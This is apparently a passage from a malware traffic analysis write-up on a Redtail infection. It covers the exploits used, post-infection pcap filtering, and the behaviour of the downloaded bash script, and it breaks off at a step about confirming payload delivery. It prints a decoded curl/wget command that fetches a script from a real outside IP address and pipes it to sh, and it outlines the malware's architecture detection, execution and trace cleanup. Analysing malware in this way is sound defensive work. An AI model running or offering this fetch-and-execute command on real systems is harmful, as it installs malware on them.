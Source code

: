 ###  Key Exploits Identified:
- Apache backdoor access via `bin/sh`
- PHP payload injection using `php://input`

 **Objective:** To push and execute a malicious shell script hosted at:  
`http://45.202.35[.]190/sh`

Decoded Payload:

```bash
X=$(curl http://45.202.35.190/sh || wget http://45.202.35.190/sh -O-); echo "$X" | sh -s
```
---
##  Step 3: Analyze Post-Infection Traffic

** Opened:** `2024-11-24-infection-by-Redtail-bash-script-from-45.202.35_190.pcap`

```
http.request or tls.handshake.type eq 1 or (tcp.flags eq 0x0002 and !(ip.addr eq 45.202.35.190 or ip.addr eq 95.215.19.53))
```

<img width="1095" height="586" alt="image" src="https://github.com/user-attachments/assets/e2cc5bdb-b012-4232-a4ee-60ae845b04fa" />

###  Behavior Summary:

- Target host retrieves the malicious shell script from:  
  `http://45.202.35[.]190/sh`
- The Bash script:
  - Detects system architecture (`x86_64`, `armv7`, etc.)
  - Selects and downloads the appropriate ELF binary
  - Renames the downloaded binary to `.redtail`
  - Executes `.redtail`
  - Performs cleanup operations to erase traces

### Screenshot Evidence Highlights:

- **Bash Script Breakdown (`sh`)**
  - Scans for `noexec` mount points
  - Writes test files to determine executable directories
  - Downloads correct ELF binary using `curl` or `wget`
  - Executes the ELF binary with the name `.redtail`
  - Cleans up using: `rm -rf /tmp/...`

###  Goal of the Malware:
Achieve **persistent execution** of architecture-specific ELF payloads while ensuring stealth through cleanup and trace removal.

---
## Step 4: Confirm Payload Delivered

**Viewed HTTP Stream for:** `/x86_64`
